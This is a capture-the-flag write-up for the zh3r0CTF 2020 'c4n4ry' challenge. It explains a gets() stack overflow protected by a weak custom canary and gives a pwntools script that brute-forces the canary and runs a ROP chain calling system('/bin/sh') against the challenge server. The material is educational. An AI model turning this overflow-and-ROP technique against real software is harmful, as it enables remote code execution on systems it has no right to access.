 ```yaml
---
title: "c4n4ry"
event: zh3r0CTF 2020
points: 991
date: 2020-03-06
difficulty: easy
tags: ["canary", "zh3r0"]
---
```


I am proud to say that my team zh3r0 hosted its first CTF. This blog covers a challenge called c4n4ry, which might have something to do with the stack canary.

# Challenge description:
![](/images/zh3r0_canary/imcanary.png)

# Solution:
## First step:

Analyze the binary and then check its mitigations.

![](/images/zh3r0_canary/mitigationscanary.png)

* NX is enabled so no shellcodes.
* PIE is disabled and also ASLR was disabled so no worries of the address changing.
Now, let us run the binary and then see !!

![](/images/zh3r0_canary/run.png)

We can say that there was a continuous loop running. Also if we analyze the binary carefully we can see the `name` and `input` were not vulnerable but the `description` was using gets which reads arbitrary input.Now we can disassemble the main file now.

![](/images/zh3r0_canary/get.png)

* GETS is vulnerable but…
* There is an additional memory compare.
* We can say that it might be our canary.

## The idea for the exploit:
Our first step will be in calculating the offset for the canary. I use pwntools pwn cyclic function but you guys can do anything.

## Inside GDB:
* I set a break at the memory compare.
* I use pwntools to analyze what is being compared with what
* Note: I also set up a fake canary to work with the binary locally

![](/images/zh3r0_canary/break.png)
<br />
![](/images/zh3r0_canary/break2.png)

Then I analyzed the string that was being compared with the help of pwntools.<br>
I got the offset as 192 for the canary. Now let me make a script to get a shell.
```python
from pwn import *
'''
system address = 0x400780
'''
p = remote("134.209.157.250", 5084)
p.sendline("1")
p.sendline("1")
buf = ('a'*192)
buf += ('abcd')
```

So I set the canary to be “abcd” and then I searched for some ROP and before that, I also got the offset for the ret to be 20 bytes.
So I created a **ROP chain.**

![](/images/zh3r0_canary/c1.png)
now it's just combining all of the gadgets that's it.

## Final step:
I need to brute force the canary. It was damn easy cause i told them the hints that the canary was going to be small letters and was going to be in order.
```python
from pwn import *
'''
sys = 0x400780
'''
for i in range(80, 123):
 p = remote("134.209.157.250",5084)
 p.sendline("1")
 p.sendline("1")
 buf = ('a'*192)
 buf += chr(i)+chr(i+1)+chr(i+2)+chr(i+3)
 buf += ('a'*20)
 buf += (p64(0x400936)) # pop r12
 buf += ("/bin/sh;")
 buf += (p64(0x400933)) #  pop r11 
 buf += (p64(0x6020B0)) #  just a random address to write to 
 buf += (p64(0x400927)) #  mov [r11], r12
 buf += (p64(0x0000000000400939)) # pop rdi
 buf += (p64(0x6020B0)) #  write address
 buf += (p64(0x400780)) #  system
 p.sendline(buf)
 p.interactive()
```
I just made the loop a bit big but what is the problem :P
![](/images/zh3r0_canary/shell.png)

## Conclusion
This was my first attempt to make a canary problem. So hope you liked this. Will be posting more blogs soon.